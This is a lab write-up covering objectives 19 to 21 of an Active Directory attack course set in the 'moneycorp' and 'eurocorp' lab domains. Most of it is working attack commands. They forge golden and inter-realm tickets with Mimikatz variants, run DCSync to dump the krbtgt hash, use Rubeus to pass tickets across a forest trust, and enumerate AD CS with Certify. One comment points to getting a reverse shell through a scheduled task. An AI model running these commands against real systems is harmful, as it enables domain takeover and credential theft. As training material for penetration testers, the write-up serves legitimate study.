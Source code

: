 

### Objective 19:

- Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash.

`/sid`: current domain SID `(Get-DomainSID)`
`/sids`: EA group SID. `(Get-DomainGroup 'Enterprise Admins' -Domain moneycorp.local)`
`/krbtgt`: hash of krbtgt of current domain.
```powershell
##Golden Ticket for escalation to parent domain
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"


dir \\mcorp-dc.moneycorp.local\c$

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"

####It is also possible to get a reverse shell via HOST Service to abuse a schedule task.

```


### objective 20:

- With DA privileges on dollarcorp.moneycorp.local, get access to SharedwithDCorp share on the DC of eurocorp.local forest.
`/sid`: current domain SID
`/sids`:EA group domain SID


```powershell

####Abuse trust key accross forest eurocorp.local creating inter-realm TGT
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:<trust_key> /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

####Request TGS using inter-realm TGT
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt

dir \\dcorp-dc\SharedwithDCorp\
```

### Objective 21:

- Check if AD CS is used by the target forest and find any vulnerable/abusable templates.
- Abuse any such template(s) to escalate to Domain Admin and Enterprise Admin.

```powershell

####Check For AD CS
C:\AD\Tools\Certify.exe cas
C:\AD\Tools\Certify.exe find
```
